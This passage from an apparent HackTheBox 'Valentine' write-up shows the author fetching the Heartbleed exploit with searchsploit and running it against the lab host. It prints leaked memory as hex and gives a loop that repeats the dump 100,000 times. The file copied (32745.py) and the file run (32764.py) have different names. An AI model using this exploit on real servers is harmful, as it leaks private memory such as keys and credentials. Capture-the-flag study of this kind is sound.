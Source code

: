     root@kali:~/hackthebox/valentine-10.10.10.79# searchsploit -m exploits/multiple/remote/32745.py
      Exploit: OpenSSL TLS Heartbeat Extension - 'Heartbleed' Memory Disclosure
          URL: https://www.exploit-db.com/exploits/32745/
         Path: /usr/share/exploitdb/exploits/multiple/remote/32745.py
    File Type: Python script, ASCII text executable, with CRLF line terminators
    
    Copied to: ~/hackthebox/valentine-10.10.10.79/32745.py
    

The script runs and grabs memory from the target server (it’s useful to remove lines of 0):

    root@kali:~/hackthebox/valentine-10.10.10.79# python 32764.py 10.10.10.79 | grep -v "00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00"
    Trying SSL 3.0...
    Connecting...
    Sending Client Hello...
    Waiting for Server Hello...
     ... received message: type = 22, ver = 0300, length = 94
     ... received message: type = 22, ver = 0300, length = 885
     ... received message: type = 22, ver = 0300, length = 331
     ... received message: type = 22, ver = 0300, length = 4
    Sending heartbeat request...
     ... received message: type = 24, ver = 0300, length = 16384
    Received heartbeat response:
      0000: 02 40 00 D8 03 00 53 43 5B 90 9D 9B 72 0B BC 0C  .@....SC[...r...
      0010: BC 2B 92 A8 48 97 CF BD 39 04 CC 16 0A 85 03 90  .+..H...9.......
      0020: 9F 77 04 33 D4 DE 00 00 66 C0 14 C0 0A C0 22 C0  .w.3....f.....".
      0030: 21 00 39 00 38 00 88 00 87 C0 0F C0 05 00 35 00  !.9.8.........5.
      0040: 84 C0 12 C0 08 C0 1C C0 1B 00 16 00 13 C0 0D C0  ................
      0050: 03 00 0A C0 13 C0 09 C0 1F C0 1E 00 33 00 32 00  ............3.2.
      0060: 9A 00 99 00 45 00 44 C0 0E C0 04 00 2F 00 96 00  ....E.D...../...
      0070: 41 C0 11 C0 07 C0 0C C0 02 00 05 00 04 00 15 00  A...............
      0080: 12 00 09 00 14 00 11 00 08 00 06 00 03 00 FF 01  ................
      0090: 00 00 49 00 0B 00 04 03 00 01 02 00 0A 00 34 00  ..I...........4.
      00a0: 32 00 0E 00 0D 00 19 00 0B 00 0C 00 18 00 09 00  2...............
      00b0: 0A 00 16 00 17 00 08 00 06 00 07 00 14 00 15 00  ................
      00c0: 04 00 05 00 12 00 13 00 01 00 02 00 03 00 0F 00  ................
      00d0: 10 00 11 00 23 00 00 00 0F 00 01 01 BF 6B 6E 41  ....#........knA
      00e0: 39 66 FE 4D BC F2 D4 12 DD 9E 97 59 61 A9 1D 4D  9f.M.......Ya..M
      00f0: 77 11 D3 8B 4F 11 AD 87 2F 50 B9 4E 13 E7 92 86  w...O.../P.N....
      0100: F1 0B 04 3B 97 CB 19 00 0B 00 0C 00 18 00 09 00  ...;............
      0110: 0A 00 16 00 17 00 08 00 06 00 07 00 14 00 15 00  ................
      0120: 04 00 05 00 12 00 13 00 01 00 02 00 03 00 0F 00  ................
      0130: 10 00 11 00 23 00 00 00 0D 00 20 00 1E 06 01 06  ....#..... .....
      0140: 02 06 03 05 01 05 02 05 03 04 01 04 02 04 03 03  ................
      0150: 01 03 02 03 03 02 01 02 02 02 03 00 0F 00 01 01  ................
      0160: 00 15 00 9C 00 00 00 00 00 00 00 00 00 00 00 00  ................
    
    WARNING: server returned more data than it should - server is vulnerable!
    

I ran it a ton of times to collect a bunch of data: `for i in $(seq 1 100000); do python 32764.py 10.10.10.79 | grep -v "00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00" > data_dump/data_dump$i; done`
